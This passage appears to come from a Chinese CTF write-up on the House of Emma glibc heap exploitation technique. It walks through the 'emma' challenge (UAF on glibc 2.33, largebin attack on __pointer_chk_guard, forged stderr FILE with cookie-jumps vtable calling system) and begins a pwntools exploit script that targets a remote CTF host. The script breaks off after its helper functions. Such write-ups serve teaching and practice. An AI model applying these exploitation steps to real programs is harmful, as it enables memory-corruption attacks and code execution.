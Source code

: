这样就可以利用setcontext+61来栈迁移执行orw读出flag，具体可以参考[第七届“湖湘杯” House _OF _Emma | 设计思路与解析 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/260614#h3-9)

## 0x02 例题

Dest0g3 520迎新赛 - emma

>  2.33版本的uaf，add edit show free, 但是最小申请0x417大小的chunk

首先是通过负的idx来修改stderr结构体的指针

之后[LargeBin Attack](https://blog.csdn.net/weixin_46483787/article/details/122754809?spm=1001.2014.3001.5501)来修改__pointer_chk_guard 

之后伪造stderr来修改vtable到`io_cookie_jumps+0x40`，rdi 为字符串“cat flag”的地址，rip为system地址

之后修改topchunk触发house of kiwi来得到flag

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'

# # 爆破tls
# for x in range(0x10-9):
#     for y in range(0x10):
#         try:
#             p = remote("node4.buuoj.cn","26229")
#             ELF_NAME = './pwn'
#             # p = process(ELF_NAME)
#             REMOTE_LIBC = '/lib/x86_64-linux-gnu/libc.so.6'

#             local = 0

#             LIBC_NAME = REMOTE_LIBC

#             elf = ELF(ELF_NAME)   
#             libc = ELF(LIBC_NAME) 

#             def debug(p,cmd=0):
#                 if local!=0:
#                     gdb.attach(p)
#                     if cmd:
#                         pause()
#                 else:
#                     pass

#             def cmd(i):
#                 p.sendlineafter(">>",str(i))

#             def add(idx,size,data):
#                 cmd(1)
#                 p.sendlineafter("Index:",str(idx))
#                 p.sendlineafter("Size:",str(size))
#                 p.sendlineafter("Content",data)

#             def edit(idx,data):
#                 cmd(2)
#                 p.sendlineafter("Index:",str(idx))
#                 p.sendlineafter("Content",data)

#             def edit_noline(idx,data):
#                 cmd(2)
#                 p.sendlineafter("Index:",str(idx))
#                 p.sendafter("Content",data)
````